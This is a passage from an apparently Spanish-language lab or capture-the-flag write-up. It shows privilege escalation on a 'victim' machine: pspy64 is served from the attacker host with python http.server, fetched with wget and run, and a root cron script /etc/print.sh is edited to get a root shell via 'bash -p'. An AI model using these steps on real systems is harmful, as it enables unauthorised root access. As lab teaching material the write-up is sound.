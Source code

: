 `mv /home/manumore/Descargas/pspy64 .`

`python3 -m http.server 80`

Se descarga en la máquina victima en el directorio `tmp` y se dan permisos.

`wget 192.168.1.127/pspy64`

`chmod 777 pspy64`

Se ejecuta el archivo descargado.

`./pspy64`

Se observa una tarea **CRON**.

![[Pasted image 20250724173849.png]]

Ahora que ya sabemos que existe la tarea, se procede a editar el archivo `/etc/print.sh`, añadiendo lo siguiente:

`vim /etc/print.sh`

`cat /etc/print.sh`

![[Pasted image 20250724174200.png]]

Se espera a que se ejecute la tarea **CRON** y se obtiene una *shell con root*.

`bash -p`

![[Pasted image 20250724174402.png]]

---